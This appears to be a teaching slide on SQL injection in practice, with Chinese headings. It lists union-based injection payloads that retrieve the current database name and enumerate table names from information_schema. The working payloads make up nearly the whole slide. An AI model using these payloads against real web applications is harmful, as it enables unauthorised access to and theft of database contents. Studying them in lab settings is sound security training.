

# SQL注入实战
查询库名
id=-1' union select 1,database(),3 %23

查询表名
id=-1' union select 1,2,table_name from information_schema.tables where table_schema='security'--+
id=-1' union select 1,2,table_name from information_schema.tables where table_schema=database()%23
id=-1' union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1%23
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
9